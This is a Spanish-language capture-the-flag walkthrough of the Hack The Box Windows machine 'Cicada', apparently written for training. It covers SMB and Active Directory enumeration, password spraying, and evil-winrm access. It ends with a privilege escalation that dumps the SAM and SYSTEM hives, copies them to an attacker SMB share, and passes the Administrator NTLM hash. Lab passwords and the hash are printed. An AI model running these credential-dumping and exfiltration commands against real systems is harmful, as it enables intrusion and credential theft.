

## Información maquina


| **Parámetros** | **Características**                                  |
| -------------- | ---------------------------------------------------- |
| OS             | Windows                                              |
| Dificultad     | Easy                                                 |
| Creador        | theblxckcicada                                       |
| Link           | [Cicada](https://www.hackthebox.com/machines/cicada) |

**Tema contemplados**
> Enumeración y reconocimiento con `nmap`.  
> Enumeración de entornos de directorio.  
> Ingeniería inversa, criptografía.  
> Reconocimiento de servicios de una maquina Windows.  

## Requisitos previos
Para mantener una mayor facilidad a la hora de realizar un reconocimiento de la maquina vulnerable vamos a realizar la exportación de la IP a una variable para poder hacer mas manejable este paso.
```ruby
export ip="10.10.11.35"
```

Se realiza una prueba de conectividad lanzando una traza de ICMP al host, con lo que se comprueba que es una maquina Windows por el `TTL` que esta por el rango de 128.


## Reconocimiento
Se realiza el primer reconocimiento con `nmap`, para obtener la diferente información de los puertos que tenga abiertos. 
```ruby
sudo nmap -p- --open -n -Pn -sS --min-rate=5000 -vvv $ip -oN preScan
```

Resultados después del reconocimiento de puertos con `nmap`.
```ruby
Nmap scan report for 10.10.11.35
Host is up, received user-set (0.13s latency).
Scanned at 2024-10-26 11:22:42 -05 for 27s
Not shown: 65523 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
52422/tcp open  unknown          syn-ack ttl 127

Read data files from: /usr/share/nmap
```

Se identificaron múltiples puertos abiertos, entre ellos algunos ampliamente conocidos asociados a Active Directory, lo que sugiere que este servidor Windows podría estar gestionando dicho servicio.

Como tengo muchos puertos extraigo del escaneo los puertos, con el siguiente comando y obteniendo el resultado.
```ruby
cat preScan | grep "tcp" | awk -F/ '{print $1}' | tail -n 12 | tr '\n' ',' | rev | cut -c 2- | rev

# 53,88,135,139,389,445,464,593,636,3269,5985,52422
```

Escaneo de los servicios y las versiones que están ejecutándose por los diferentes puertos.
```ruby
sudo nmap -sCV -p53,88,135,139,389,445,464,593,636,3269,5985,52422 10.10.11.35 -oN scan
```

Reporte de salida del escaneo de todos los puertos.
```ruby
Nmap scan report for 10.10.11.35
Host is up (0.14s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-26 23:49:24Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
	| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
52422/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-10-26T23:50:18
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Se puede observar que algunos servicios están apuntando a un dominio `cicada.htb`, por lo tanto se procedería a agregarlo a host del sistema para realizar estos reconocimientos, agregamos la IP y el dominio en `/etc/hosts`.
```bash
10.10.11.35  cicada.htb cicada.htb.local
```

Realizar un escaneo con **crackmapexec**, para sacar algún dominio al que este apuntando el AD.
```ruby
crackmapexec smb 10.10.11.35
```

se encuentra el dominio que se había visto anteriormente en la exploración de los diferentes puestos que nos informaron que esta apuntando a un dominio de AD.


Probar el siguiente comando, para listar los recursos compartidos en la red del lado del servidor, para poder observar si la maquina esta compartiendo recursos en la red.
```ruby
crackmapexec smb 10.10.11.35 --shares
```

Se tiene algunos errores al ingresar e intentamos ingresar con algún usuario, en este caso vamos a  intentar con `guest`:
```ruby
crackmapexec smb 10.10.11.35 --shares -u '' -p ''
crackmapexec smb 10.10.11.35 --shares -u 'guest' -p ''
```


Seguimos enumerando algunos servicios con `smbclient` para el dominio de `cicada.htb`
```ruby
smbclient -L //cicada.htb
```

Al analizar con `smbclient`, encontramos dos directorios para analizar que se ven interesantes, los cuales son `DEV`, `HR`.


Enumeramos los directorios de DEV y HR para mirar si encontramos algo interesante.
```ruby
1. smbclient -N //cicada.htb/DEV
2. smbclient -N //cicada.htb/HR
```

Como se puede observar para DEV no tenemos permiso para ingresar, pero para HR, encontramos un archivo `Notice from HR.txt`


Descargamos el archivo `Notice from HR.txt` y observamos su contenido.


El contenido del archivo contiene la siguiente información:
```bash
Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

Se identificó una credencial por defecto (Cicada$M6Corpb*@Lp#nZp!8), la cual podría ser utilizada para acceder a algún recurso del sistema.

Seguimos con la realización de encontrar mas información por parte del usuario `guest`, con lo que se procede a realizar un análisis con fuerza bruta para observar que se encuentra.
```ruby
crackmapexec smb cicada.htb -u "guest" -p '' --rid-brute
```

Se encuentra varias información y varios posibles usuarios, se agregan a una lista de usuario para poder seguir analizando y poder tener acceso al sistema. 


Realizamos un filtro para obtener los usuarios que podemos utilizar en esta lista y luego realizar un ataque de fuerza bruta con estos usuarios, para mirar si se logra obtener acceso con alguno.
```ruby
crackmapexec smb cicada.htb -u "guest" -p '' --rid-brute | grep "SidTypeUser"
```


Se crea un listado de los posibles usuarios.


Se procederá a realizar una enumeración con los usuarios identificados, con el objetivo de obtener información adicional o identificar un usuario válido para el sondeo, utilizando la credencial por defecto encontrada.
```ruby
nxc smb cicada.htb -u users -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

Al realizar el escaneo encontramos que el único usuario que se logra tener un acceso por SMB es `michael.wrightson`


Realizamos una enumeración con la herramienta `enum4linux-ng` para este equipo de Windows sobre el servicio de SMB,  y poder encontrar algo mas de información sobre el sistema.
```ruby
enum4linux-ng -A -u 'Michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35
```

Se encuentra un usuario  mas en esta enumeración, usuario `david.orelious` y su password `aRt$Lp#7t*VQ!3`, con el que procedemos a averiguar en algún servicio de SMB si podemos escalar mas privilegios.


Con la herramienta de `smbclient` seguimos explorando si logramos acceder algún recurso compartido de DEV, que antes no logramos tener acceso.
```ruby
smbclient //cicada.htb/DEV -U david.orelious%'aRt$Lp#7t*VQ!3'
```

Se logra ingresar a los archivos compartidos para el usuario y se encuentra un archivo `Backup_script.ps1` que se procede a descargar a la maquina host y proceder a analizar que contiene.



En este archivo se logra obtener otro usuario que contiene también una credencial.


Ahora con esta nueva contraseña ingresada en nuestro diccionario de password, realizamos otra vez el comando `crackmapexec`.
```ruby
crackmapexec smb cicada.htb -u users -p pass --continue-on-success
```

Se puede observar que efectivamente este usuario y contraseña son validos para `smb`.


Ahora vamos a probar otro protocolo para ver si tenemos algún acceso con estos usuario y contraseñas que se encontraron.
```ruby
crackmapexec winrm cicada.htb -u users -p pass --continue-on-success
```

Se logra observar que con el servicio de `winrm`, logramos tener un acceso al sistemas, con el usuario `emily.oscars` y password `Q!3@Lp#M6b*7t*Vt`


Ahora nos conectamos al sistema para poder ingresar al sistema con la herramienta de `evil-winrm`
```ruby
evil-winrm -i cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

Se ha logrado acceder a la maquina con el usuario de `emily.oscars`.


Obtenemos la **flag** del usuario respectivo.


Se lista los diferentes grupos y permisos que tiene el usuario sobre el sistemas, y los cuales nos van a servir para realizar la escalar privilegios.


## Escalamiento de privilegios
Vamos a escalar privilegios, gracias a este servicio `SeBackupPrivilege`,  y vamos a revisar la información del siguiente articulo para poder escalar privilegios [hackingarticles](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)se utiliza los siguiente comandos para poder sacar el `sam` del sistema y el `system`.
```bash
reg save hklm\sam samR
reg save hklm\system systemR
```

Después de ejecutar estos los comandos me quedan dos archivos donde contengo la información del sistema.


Ahora se procede a pasar los archivos generados a la maquina host para proceder a analizar la información de cada archivo.
```ruby
sudo impacket-smbserver KzFFile . -smb2support
```

Se enviar los archivo `samR` y `systemR` desde Windows a la maquina host.
```ruby
copy samR \\10.10.14.100\KzFFile\samR
copy systemR \\10.10.14.100\KzFFile\systemR
```

Se realiza la explotación con `impacket` para ver lo archivos que fueron copiados y revisar que contienen, pero va hacer en LOCAL.
```ruby
impacket-secretsdump -sam samR -system systemR LOCAL
```

Con esa información miramos que obtenemos los hash NTLM, pero lo interesante es que obtenemos el Hash NTLM del usuario `Administrator`.


Ahora con el hash NTLM y utilizando `evil-winrm` con la parte del hash LM la usamos para conectarnos a la cuenta del usuario `Administrator`.
```ruby
evil-winrm -i cicada.htb -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```

Se ha logrado acceder a la maquina con el usuario `Administrator`, obteniendo los altos privilegios sobre la maquina, utilizando la técnica de `pass-the-hash`.


La **flag** al finalizar la escalación de privilegios.


**Finalización de la maquina Cicada por `KrozFu`**

